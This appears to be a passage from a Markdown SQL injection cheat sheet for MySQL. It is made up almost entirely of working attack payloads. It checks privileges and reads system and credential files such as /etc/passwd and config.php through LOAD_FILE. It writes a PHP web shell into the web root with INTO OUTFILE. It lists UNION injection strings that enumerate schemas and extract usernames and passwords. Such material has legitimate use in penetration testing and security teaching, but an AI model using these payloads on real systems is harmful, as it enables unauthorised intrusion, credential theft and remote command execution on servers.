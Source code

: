 ### Privilege Checking
```sql
-- Check super privileges
SELECT super_priv FROM mysql.user;
SELECT super_priv FROM mysql.user WHERE user="root";

-- List all user privileges
SELECT grantee, privilege_type FROM information_schema.user_privileges;

-- List privileges for specific user
SELECT grantee, privilege_type
FROM information_schema.user_privileges
WHERE grantee="'root'@'localhost'";
```

## File Operations

### Reading Files
```sql
-- Read file content
SELECT LOAD_FILE('/etc/passwd');
SELECT LOAD_FILE('/var/www/html/config.php');

-- Check file read/write permissions
SELECT variable_name, variable_value
FROM information_schema.global_variables
WHERE variable_name="secure_file_priv";
```

### Writing Files
```sql
-- Write simple text to file
SELECT 'Hello World' INTO OUTFILE '/tmp/test.txt';

-- Write query results to file
SELECT * FROM users INTO OUTFILE '/tmp/users.txt';

-- Write web shell
SELECT '<?php system($_REQUEST[0]); ?>' INTO OUTFILE '/var/www/html/shell.php';
```

## UNION Injection Payloads

### Basic Structure
```sql
-- Template for UNION injection
' UNION SELECT 1,2,3,4-- -

-- Database enumeration
' UNION SELECT 1,SCHEMA_NAME,3,4 FROM INFORMATION_SCHEMA.SCHEMATA-- -

-- Table enumeration
' UNION SELECT 1,TABLE_NAME,TABLE_SCHEMA,4 FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='database_name'-- -

-- Column enumeration
' UNION SELECT 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='table_name'-- -

-- Data extraction
' UNION SELECT 1,username,password,4 FROM database_name.table_name-- -
```
